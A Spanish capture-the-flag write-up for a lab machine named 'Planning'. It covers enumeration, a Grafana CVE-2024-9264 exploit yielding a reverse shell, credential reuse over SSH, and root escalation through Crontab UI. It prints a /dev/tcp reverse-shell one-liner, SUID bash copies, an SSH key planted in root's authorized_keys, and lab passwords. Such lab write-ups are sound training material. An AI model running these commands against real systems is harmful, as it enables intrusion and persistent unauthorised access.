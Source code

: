 # Planning

**Dificultad:** Easy  
**SO:** Linux  

## Información de la máquina
Como en un pentest real, empezamos con las credenciales para la cuenta: `admin / 0D5oT70Fq13EvB5r`.

## Metodología

### Reconocimiento inicial

##### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.68
nmap -sS -p- --min-rate 5000 10.10.11.68 -oG allPortsPlanning
nmap -sCV -p 22,80 -n -nP 10.10.11.68 -oA sondeoPlanning
```

![/etc/hosts](images/planning_dns_local.PNG)
![/etc/hosts](images/planning_dns_local.PNG)
![/etc/hosts](images/planning_dns_local.PNG)

#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (planning.htb) con su dirección IP (10.10.11.68).

```bash
nano /etc/hosts
```

![/etc/hosts](images/planning_dns_local.PNG)

### Reconocimiento web

#### Análisis con Whappalyzer
Permite identificar las `tecnologías` que se utilizan en esta `web`.
![Wappalyzer](images/planning_wappalyzer.PNG)

#### Enumeración de subdirectorios con Gobuster
Al observar que se utiliza PHP, añadimos la opción -x php.

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```

![Gobuster](images/planning_gobuster.PNG)

#### Enumeración de subdominios con Wfuzz
Primero vemos el comportamiento de los subdominios inválidos.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```

![Wfuzz](images/planning_wfuzz_inicial.PNG)

Luego le metemos el `hide lines`, para `filtrar` todas las respuestas que tengan 7.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
```

![Wfuzz filtrado](images/planning_wfuzz_grafana.PNG)

#### Mapeamos el nuevo subdominio en /etc/hosts
Asociamos grafana.planning.htb con la dirección IP del dominio (10.10.11.68).
![Wfuzz filtrado](images/planning_dns_subdominio.PNG)

#### Grafana
Página de login de Grafana en grafana.planning.htb.
![Wfuzz filtrado](images/planning_grafana_web_login.PNG)

Accedemos con las credenciales que nos han proporcionado (admin:0D5oT70Fq13EvB5r) y comprobamos que `Grafana v11.0.0` es vulnerable.
![Grafana](images/planning_grafana_dashboard_v11.PNG)

### CVE-2024-9264 - RCE en Grafana

Vulnerabilidad de ejecución remota de código (RCE) en Grafana v11.0.0.

La `función experimental de SQL Expressions` en Grafana, `permite ejecutar consultas en duckdb` que contienen información del usuario.

El problema radica en que `las consultas no se sanitizan` correctamente antes de ser procesadas por duckdb, lo que `permite una inyección de comandos y vulnerabilidad de inclusión de archivos locales (LFI)`.

Cualquier usuario con permiso de VIEWER o superior puede aprovechar esta vulnerabilidad para ejecutar comandos arbitrarios en el servidor.

Es importante destacar que para que el ataque funcione, `el binario de duckdb debe estar presente en el $PATH de Grafana`, aunque por defecto no viene instalado en las distribuciones estándar.


[Grafana Security Advisory CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)


#### Reverse shell
Ejecutamos el exploit y obtenemos una `reverse shell` como root.

```bash
python3 reverse.py --url http://grafana.planning.htb/ --username "admin" --password "0D5oT70Fq13EvB5r" --reverse-ip 10.10.16.19 --reverse-port 1337
```

![Reverse shell](images/planning_exploit.PNG)

[Github-CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)


#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación
Viendo el nombre del `hostname 7ce659d667d7` ya se puede intuir que estamos es un `contenedor docker`, para confirmalo vemos quien es el proceso 1 (en este caso `Grafana` ha sido la aplicación que se lanzó con el contenedor).

![Proceso 1](images/planning_process_1.PNG)

#### LinPEAS
Utilicé `LinPEAS` para enumerar posibles vectores de escalada, aunque lo primero es `subirlo al contenedor`.

![Subir LinPEAS](images/planning_linpeas.PNG)

Encontrando las credenciales para `enzo:RioTecRANDEntANT!` en las variables de entorno (sin linPEAS, con env o printenv).

![Subir LinPEAS](images/planning_linpeas_env.PNG)

#### SSH
Nos conectamos por SSH con el usuario enzo.

```bash
ssh enzo@10.10.11.68
```

![SSH 1](images/planning_ssh_enzo1.PNG)
![SSH 2](images/planning_ssh_enzo2.PNG)

#### Escalada a root
Buscando servicios internos con `netstat -ano`, me encontré con grafana escuchando en el 3000 [Grafana docs](https://grafana.com/docs/grafana/latest/setup-grafana/start-restart-grafana/#docker-compose-example) y otro servicio en el 8000, pero requería autenticación.

![NetStat](images/planning_conexiones_locales.PNG)
![Servicio desconocido](images/planning_servicio_desconocido.PNG)

Tras investigar el sistema un rato, me encontré el archivo `crontab.db` en la ruta `/opt/crontab/crontab.db`. Al parecer hay una tarea programada en JSON que ejecuta un backup diario de un contenedor docker, donde guarda la imagen `root_grafana` en un grafana.tar y después la comprime en un .zip protegido con la contraseña `P4ssw0rdS0pRi0T3c`.

Ahora con esta contraseña, pruebo a autenticarme de nuevo contra el servicio desconocido con diferentes usuarios (enzo, root_grafana y root). Obteniendo un HTTP 200 OK con `root:P4ssw0rdS0pRi0T3c`.

```bash
curl -u enzo:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root_grafana:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root:P4ssw0rdS0pRi0c http://localhost:8000/ -v
```

![Autenticado contra el servicio desconocido](images/planning_autenticacion_servicio_desconocido.PNG)

#### Port Forwarding
Para comprender mejor que hay ahí vamos a redirigir el trafico desde un puerto de mi máquina local hacia el puerto donde está corriendo este servicio en la maquina remota.

```bash
ssh -L 8080:127.0.0.1:8000 enzo@10.10.11.68
```
![Port Forwarding](images/planning_port_forwarding.PNG)

#### Crontab UI
El servicio que corre en localhost:8000 es un Crontab UI desde donde se puede ejecutar comandos como root.

Maneras de convertirnos en root:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1337 0>&1'
```

![Root - Simple reverse](images/planning_crontab_simple_reverse.PNG)

```bash
cp /bin/bash /usr/local/bin/upupup && chmod 4755 /usr/local/bin/upupup
cp /bin/bash /usr/local/bin/upupup && chmod u+s /usr/local/bin/upupup
```

![Root - Bit SUID](images/planning_crontab_suid_shell.PNG)

```bash
echo 'ssh-rsa AAAAB3Nz...LJzNu/ZQ== kali@kali' > /root/.ssh/authorized_keys
```

![Root - SSH authorized_keys](images/planning_crontab_ssh_pub.PNG)

### Limpieza del entorno
Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

![Limpieza](images/planning_limpieza_entorno.PNG)